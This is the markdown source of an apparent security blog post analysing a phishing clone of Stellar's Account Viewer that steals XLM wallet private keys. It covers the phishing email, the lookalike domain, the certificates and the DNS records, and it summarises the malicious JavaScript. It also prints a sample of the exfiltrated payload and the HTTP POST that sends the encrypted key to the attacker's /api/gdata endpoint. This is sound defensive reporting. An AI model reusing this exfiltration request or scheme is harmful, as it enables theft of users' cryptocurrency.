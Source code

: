 ```yaml
---
layout: post
title: XLM Account Viewer phishing
---
```


The following address: **hxxp://accountviewer.stellar.org.ge** is a malicious clone attacking stellar users.

It all starts with a phishing email:

{:refdef: style="text-align: center;"}
![_config.yml]({{ site.baseurl }}/images/xlm/phshing.jpg)
{: refdef}

Quickly checking the mail headers reveals suspicious details:

{:refdef: style="text-align: center;"}
![_config.yml]({{ site.baseurl }}/images/xlm/headers.png)
{: refdef}


The send is **no-reply@annfinance.co.uk**, which seems to be a legitimate company with records dating from at least 2016. This company however does not seems to have any link with Stellar whatsoever. It is plausible that their mail accounts have been compromised in order to perform phishing attacks.

The mail's body contains a link to Stellar's account viewer page, which looks exactly like the original, as it was probably forked using [AccountViewer v2](https://github.com/stellar/account-viewer-v2), except that the domain is stellar.org.ge instead of stellar.org:

{:refdef: style="text-align: center;"}
| ![_config.yml]({{ site.baseurl }}/images/xlm/clone.png) | 
|:--:| 
| *Clone Website* |
{: refdef}

{:refdef: style="text-align: center;"}
| ![_config.yml]({{ site.baseurl }}/images/xlm/legit.png) | 
|:--:| 
| *Original Website* |
{: refdef}

The TLS certificate is also not issued by the same CA, which is usually very fishy, especially if it comes from Let's Encrypt, as they are free, and easy to deploy:

{:refdef: style="text-align: center;"}
| ![_config.yml]({{ site.baseurl }}/images/xlm/clonecert.png) | 
|:--:| 
| *Let's Encrypt clone certificate* |
{: refdef}

{:refdef: style="text-align: center;"}
| ![_config.yml]({{ site.baseurl }}/images/xlm/legitcert.png) | 
|:--:| 
| *Original Sectigo certificate* |
{: refdef}

Even the domain's DNS records look nothing like the original Stellar's site, which is protected by Cloudflare:

{:refdef: style="text-align: center;"}
![_config.yml]({{ site.baseurl }}/images/xlm/dns.png)
{: refdef}

This is a pretty good indication that the two domains are not controlled by the same entity.

The page offers to create a wallet for sending XLM. After reading the modified Javascript code, we found out what it was doing:

* Wait until the wallet reaches 15k XLM
* Create a new private/public key pair using stellar sdk
* Trigger a wire transfer to the newly created wallet
* Save a transaction's history containing the **wallet's private key**

By sending the private key to **/api/gdata**, the rogue site ensures they keep their hands on all the accounts where the XLM has been transfered.

The source file responsible for the account creation can be found here:

{:refdef: style="text-align: center;"}
![_config.yml]({{ site.baseurl }}/images/xlm/sources.png)
{: refdef}

The algorithm generates a JSON payload of the following form:

```json
{"ffatale":"BLOBBLOB 97023.3555 => SCT62N4GYPBBTJCMGSHGEUTJNCXXCULPSYFFYAS6D5H62HD7SQF6RFZS"}
```

Then, the javascript source encrypts the json array using AES and a harcoded passphrase:

{:refdef: style="text-align: center;"}
![_config.yml]({{ site.baseurl }}/images/xlm/js.png)
{: refdef}

The request, as received by **/api/gdata** should look something like this:

```http
POST /api/gdata HTTP/1.1
Host: accountviewer.stellar.org.ge
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.17 (KHTML, like Gecko) Chrome/24.0.1312.60 Safari/537.17
Accept-Encoding: gzip, deflate, br
Accept: application/json
Connection: keep-alive
Content-Type: application/json
Content-Length: 152

U2FsdGVkX1+uqjVGvPpGo9olPeF8kF2E24710Lrxv29L97NEwnBgjs4PTZYp/DZCxTwejlDV0ynYF+Q8ZAVaAediKyfVztZJbM/DBE+HvoV6Su0SEQJCBGNBTaVSfFx9FmqN+YxZv9eZkpLbR8H6kA==
```

## If you have NOT closed your browser, or rebooted your computer since the transaction was done

As the request containing the private key is sent from your browser, it might still reside somewhere in the process's memory
